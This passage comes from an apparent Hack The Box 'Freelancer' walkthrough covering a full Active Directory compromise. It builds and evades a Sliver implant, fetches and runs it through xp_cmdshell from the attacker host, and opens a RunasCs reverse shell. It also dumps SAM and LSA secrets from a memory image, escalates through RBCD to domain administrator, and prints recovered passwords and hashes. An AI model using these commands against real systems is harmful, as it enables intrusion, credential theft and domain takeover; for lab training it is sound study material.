[*] Implant saved to /tmp/ADVERSE_JUICE.bin
```

For the sake of easy evasion out of the box, we used `Freeze`.

- [https://github.com/Tylous/Freeze](https://github.com/Tylous/Freeze)

```c
┌──(kali㉿kali)-[~/opt/evasion/Freeze]
└─$ ./Freeze -I /tmp/ADVERSE_JUICE.bin -O x.exe                                
 
        ___________                                    
        \_   _____/______   ____   ____ ________ ____  
         |    __) \_  __ \_/ __ \_/ __ \\___   // __ \ 
         |     \   |  | \/\  ___/\  ___/ /    /\  ___/ 
         \___  /   |__|    \___  >\___  >_____ \\___  >
             \/                \/     \/      \/    \/ 
                                        (@Tyl0us)
        Soon they will learn that revenge is a dish... best served COLD...
                 
[!] Selected Process to Suspend: notepad.exe
[+] Loader Compiled
[*] Compiling Payload
[+] Payload x.exe Compiled
```

Next we `staged` our `binary` and `downloaded` it via the `SQL Terminal`.

```c
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
EXEC xp_cmdshell 'powershell -c iwr 10.10.14.58/x.exe -o C:\Windows\Tasks\x.exe';
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.7.9 - - [01/Jun/2024 17:16:11] "GET /x.exe HTTP/1.1" 200 -
```

As second step we just `executed` the `binary`. It took nearly `two minutes` to receive the `callback`.

```c
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
EXEC xp_cmdshell 'cmd /c C:\Windows\Tasks\x.exe';
```

```c
[*] Session 8761533e ADVERSE_JUICE - 10.129.7.9:54770 (DC) - windows/amd64 - Sat, 01 Jun 2024 17:23:17 EDT
```

If this will not work for whatever reason, give it a try and cut the `cmd /c` part.

```c
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
EXEC xp_cmdshell 'C:\Windows\Tasks\x.exe';
```

## Enumeration

We received a shell as `sql_svc`.

```c
sliver (ADVERSE_JUICE) > whoami

Logon ID: FREELANCER\sql_svc
[*] Current Token ID: FREELANCER\sql_svc
```

In the `Downloads` folder we found a folder which seemed to contain files for a `SQL Express installation` and strangely enough, also a file called `sql-Configuration.INI` from which we extracted `credentials`.

```c
PS C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> dir

    Directory: C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU

Mode                LastWriteTime         Length Name                            
----                -------------         ------ ----                            
d-----        5/27/2024   1:52 PM                1033_ENU_LP                     
d-----        5/27/2024   1:52 PM                redist                         
d-----        5/27/2024   1:52 PM                resources                       
d-----        5/27/2024   1:52 PM                x64                             
-a----        9/24/2019   9:00 PM             45 AUTORUN.INF                     
-a----        9/24/2019   9:00 PM            784 MEDIAINFO.XML                   
-a----        9/29/2023   4:49 AM             16 PackageId.dat                   
-a----        9/24/2019   9:00 PM         142944 SETUP.EXE                       
-a----        9/24/2019   9:00 PM            486 SETUP.EXE.CONFIG                
-a----        5/27/2024   4:58 PM            724 sql-Configuration.INI           
-a----        9/24/2019   9:00 PM         249448 SQLSETUPBOOTSTRAPPER.DLL
```

```c
PS C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> type sql-Configuration.INI
type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

| Password        |
| --------------- |
| IL0v3ErenY3ager |

## Privilege Escalation to mikasaAckerman through Password Reuse

We `reused` the `password` on the user `mikasaAckermann` to `escalate our privileges` to her.

- [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

```c
PS C:\temp> .\RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.58:6969
.\RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.58:6969

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-51135$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 2956 created in background.
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.14.58] from (UNKNOWN) [10.129.7.9] 49863
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

Then I executed my `payload` again to get a `backup shell` in `Sliver`.

```c
PS C:\temp> iwr 10.10.14.58/x.exe -o x.exe
```

```c
PS C:\temp> .\x.exe
```

```c
[*] Session c8a50b93 ADVERSE_JUICE - 10.129.7.9:59227 (DC) - windows/amd64 - Sat, 01 Jun 2024 18:25:34 EDT
```

```c
sliver (ADVERSE_JUICE) > whoami

Logon ID: FREELANCER\mikasaAckerman
[*] Current Token ID: FREELANCER\mikasaAckerman
```

## user.txt

With our new privileges we finally got the `user.txt`.

```c
PS C:\Users\mikasaAckerman\Desktop> type user.txt
type user.txt
9711de35120d25fff8c5002371ebc032
```

## Pivoting

Luckily on the `Desktop` a `7-zip archive` called `MEMORY.7z` resided right next to the `user.txt` and a `note` for `Mikasa`.

```c
PS C:\Users\mikasaAckerman\Desktop> dir
dir

    Directory: C:\Users\mikasaAckerman\Desktop

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                            
-a----       10/28/2023   6:23 PM           1468 mail.txt
-a----        10/4/2023   1:47 PM      292692678 MEMORY.7z                       
-ar---         6/1/2024   8:20 PM             34 user.txt
```

```c
PS C:\Users\mikasaAckerman\Desktop> type mail.txt
type mail.txt
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```

We downloaded the `archive` for further investigation.

```c
sliver (ADVERSE_JUICE) > download C:\\Users\\mikasaAckerman\\Desktop\\MEMORY.7z

[*] Wrote 292692678 bytes (1 file successfully, 0 files unsuccessfully) to /home/kali/C:\Users\mikasaAckerman\Desktop\MEMORY.7z
```

## Analyzing Memory Dump

To analyze the `memory dump` we used a tool called `MemProcFS` and mounted the `dump` on our local machine.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ 7z x MEMORY.7z 

7-Zip 23.01 (x64) : Copyright (c) 1999-2023 Igor Pavlov : 2023-06-20
 64-bit locale=C.UTF-8 Threads:4 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 292692678 bytes (280 MiB)

Extracting archive: MEMORY.7z
--
Path = MEMORY.7z
Type = 7z
Physical Size = 292692678
Headers Size = 130
Method = LZMA2:26
Solid = -
Blocks = 1

Everything is Ok 

Size:       1782252040
Compressed: 292692678
```

- [https://github.com/ufrisk/MemProcFS](https://github.com/ufrisk/MemProcFS)

```c
┌──(kali㉿kali)-[~/opt/11_forensics_handbook/MemProcFS]
└─$ sudo ./memprocfs -device /media/sf_cybersecurity/notes/HTB/Machines/Freelancer/files/MEMORY.DMP -mount /mnt/freelancer -forensic 1 
Initialized 64-bit Windows 10.0.17763
[FORENSIC] Built-in Yara rules from Elastic are disabled. Enable with: -license-accept-elastic-license-2-0
[PLUGIN]   Python plugin manager failed to load.

==============================  MemProcFS  ==============================
 - Author:           Ulf Frisk - pcileech@frizk.net                      
 - Info:             https://github.com/ufrisk/MemProcFS                 
 - Discord:          https://discord.gg/pcileech                         
 - License:          GNU Affero General Public License v3.0              
   --------------------------------------------------------------------- 
   MemProcFS is free open source software. If you find it useful please  
   become a sponsor at: https://github.com/sponsors/ufrisk Thank You :)  
   --------------------------------------------------------------------- 
 - Version:          5.9.16 (Linux)
 - Mount Point:      /mnt/freelancer           
 - Tag:              17763_a3431de6        
 - Operating System: Windows 10.0.17763 (X64)
==========================================================================
```

## Privilege Escalation to lorra199

The directory `hive_files` contained `registry hives` for the `SAM` file.

```c
┌──(root㉿kali)-[/mnt/freelancer/registry/hive_files]
└─# ls
0xffffd30679c0e000-unknown-unknown.reghive                                              0xffffd3067db43000-BBI-A_{ae450ff4-3002-4d4d-921c-fd354d63ec8b}.reghive
0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive                                        0xffffd3067db53000-NTUSERDAT-USER_S-1-5-19.reghive
0xffffd30679cdc000-unknown-MACHINE_HARDWARE.reghive                                     0xffffd3067dd5e000-ActivationStoredat-A_{D65833F6-A688-4A68-A28F-F59183BDFADA}.reghive
0xffffd3067b257000-settingsdat-A_{c94cb844-4804-8507-e708-439a8873b610}.reghive         0xffffd3067e30e000-UsrClassdat-USER_S-1-5-21-3542429192-2036945976-3483670807-1121_Classes.reghive
0xffffd3067b261000-ActivationStoredat-A_{23F7AFEB-1A41-4BD7-9168-EA663F1D9A7D}.reghive  0xffffd3067ec26000-Amcachehve-A_{da3518a3-bbc6-1dba-206b-2755382f1364}.reghive
0xffffd3067b514000-BCD-MACHINE_BCD00000000.reghive                                      0xffffd3067ec39000-ntuserdat-USER_S-1-5-21-3542429192-2036945976-3483670807-1121.reghive
0xffffd3067b516000-SOFTWARE-MACHINE_SOFTWARE.reghive                                    0xffffd3067ec58000-settingsdat-A_{8a28242f-95cc-f96a-239c-d8a872afe4cc}.reghive
0xffffd3067d7e9000-DEFAULT-USER_.DEFAULT.reghive                                        0xffffd3067f097000-DRIVERS-MACHINE_DRIVERS.reghive
0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive                                    0xffffd3067f91b000-UsrClassdat-USER_S-1-5-21-3542429192-2036945976-3483670807-500_Classes.reghive
0xffffd3067d935000-SAM-MACHINE_SAM.reghive                                              0xffffd3067f9e7000-ntuserdat-USER_S-1-5-21-3542429192-2036945976-3483670807-500.reghive
0xffffd3067d9c4000-NTUSERDAT-USER_S-1-5-20.reghive
```

We extracted credentials using `impacket-secretsdump` on the `hive files` and used the newly found `password` on `lorra199`.

```c
┌──(root㉿kali)-[/mnt/freelancer/registry/hive_files]
└─# impacket-secretsdump -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive LOCAL 
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[*] Target system bootKey: 0xaeb5f8f068bbe8789b87bf985e129382
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:725180474a181356e53f4fe3dffac527:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04fc56dd3ee3165e966ed04ea791d7a7:::
[*] Dumping cached domain logon information (domain/username:hash)
FREELANCER.HTB/Administrator:$DCC2$10240#Administrator#67a0c0f193abd932b55fb8916692c361: (2023-10-04 12:55:34)
FREELANCER.HTB/lorra199:$DCC2$10240#lorra199#7ce808b78e75a5747135cf53dc6ac3b1: (2023-10-04 12:29:00)
FREELANCER.HTB/liza.kazanof:$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679: (2023-10-04 17:31:23)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:a680a4af30e045066419c6f52c073d738241fa9d1cff591b951535cff5320b109e65220c1c9e4fa891c9d1ee22e990c4766b3eb63fb3e2da67ebd19830d45c0ba4e6e6df93180c0a7449750655edd78eb848f757689a6889f3f8f7f6cf53e1196a528a7cd105a2eccefb2a17ae5aebf84902e3266bbc5db6e371627bb0828c2a364cb01119cf3d2c70d920328c814cad07f2b516143d86d0e88ef1504067815ed70e9ccb861f57394d94ba9f77198e9d76ecadf8cdb1afda48b81f81d84ac62530389cb64d412b784f0f733551a62ec0862ac2fb261b43d79990d4e2bfbf4d7d4eeb90ccd7dc9b482028c2143c5a6010
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1003ddfa0a470017188b719e1eaae709
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xcf1bc407d272ade7e781f17f6f3a3fc2b82d16bc
dpapi_userkey:0x6d210ab98889fac8829a1526a5d6a2f76f8f9d53
[*] NL$KM 
 0000   63 4D 9D 4C 85 EF 33 FF  A5 E1 4D E2 DC A1 20 75   cM.L..3...M... u
 0010   D2 20 EA A9 BC E0 DB 7D  BE 77 E9 BE 6E AD 47 EC   . .....}.w..n.G.
 0020   26 02 E1 F6 BF F5 C5 CC  F9 D6 7A 16 49 1C 43 C5   &.........z.I.C.
 0030   77 6D E0 A8 C6 24 15 36  BF 27 49 96 19 B9 63 20   wm...$.6.'I...c 
NL$KM:634d9d4c85ef33ffa5e14de2dca12075d220eaa9bce0db7dbe77e9be6ead47ec2602e1f6bff5c5ccf9d67a16491c43c5776de0a8c6241536bf27499619b96320
[*] _SC_MSSQL$DATA 
(Unknown User):PWN3D#l0rr@Armessa199
[*] Cleaning up...
```

| Password              |
| --------------------- |
| PWN3D#l0rr@Armessa199 |

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lorra199\Documents>
```

## Pivoting

The user `lorra199` had `SeMachineAccountPrivilege` set which indicated `privilege escalation` to `NT AUTHORITY\SYSTEM` via `Resource Based Constrained Delegation (RBCD)`.

```c
*Evil-WinRM* PS C:\Users\lorra199\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
freelancer\lorra199 S-1-5-21-3542429192-2036945976-3483670807-1116


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
FREELANCER\AD Recycle Bin                  Group            S-1-5-21-3542429192-2036945976-3483670807-1164 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation to SYSTEM

### Resource Based Constrained Delegation (RBCD)

A quick check on a `BloodHound dump` showed that we could `delegate` to the `Domain Controller`.


First we used `powerview.py` to add a `computer` to the `domain`.

- [https://github.com/aniqfakhrul/powerview.py](https://github.com/aniqfakhrul/powerview.py)

```c
┌──(kali㉿kali)-[~]
└─$ powerview lorra199:'PWN3D#l0rr@Armessa199'@freelancer.htb
Logging directory is set to /home/kali/.powerview/logs/freelancer.htb
(LDAP)-[freelancer.htb]-[FREELANCER\lorra199]
PV > Add-ADComputer -ComputerName foobar -ComputerPass foobar
[2024-06-01 20:00:07] Opening domain FREELANCER...
[2024-06-01 20:00:08] Successfully added machine account foobar$ with password foobar.
(LDAP)-[freelancer.htb]-[FREELANCER\lorra199]
```

Next, since the box was `cursed af` we had to `synchronize` our local time with the `Domain Controller` to use `Kerberos`.

```c
┌──(kali㉿kali)-[~]
└─$ while [ 1 ]; do sudo ntpdate 10.129.7.9;done
```

Then we performed the delegation to the `Domain Controller`, grabbed a `Kerberos ticket`, exported it and used it with `smbclient.py` to grab the `root.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ rbcd.py -delegate-from 'foobar$' -delegate-to 'DC$' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199' 
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] foobar$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     foobar$      (S-1-5-21-3542429192-2036945976-3483670807-11601)
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ impacket-getST -spn 'cifs/dc.freelancer.htb' -impersonate 'administrator' 'freelancer.htb/foobar$:foobar'
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ export KRB5CCNAME=administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ smbclient.py administrator@dc.freelancer.htb -k -no-pass
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

Type help for list of commands
#
```

```c
# use C$
```

## root.txt

```c
# cat Users\Administrator\Desktop\root.txt
8acf9ca8f87083d4a3b1b3207834284e
```

## Post Exploitation

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ smbexec.py administrator@dc.freelancer.htb -k -no-pass
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[!] Launching semi-interactive shell - Careful what you execute
C:\WINDOWS\system32>
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/files]
└─$ netexec smb 10.129.7.9 -u administrator --use-kcache --dpapi
SMB         10.129.7.9      445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.129.7.9      445    DC               [+] freelancer.htb\administrator from ccache (Pwn3d!)
SMB         10.129.7.9      445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.7.9      445    DC               [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
```

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i freelancer.htb  -u administrator -p 'v3ryS0l!dPasswd#29'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
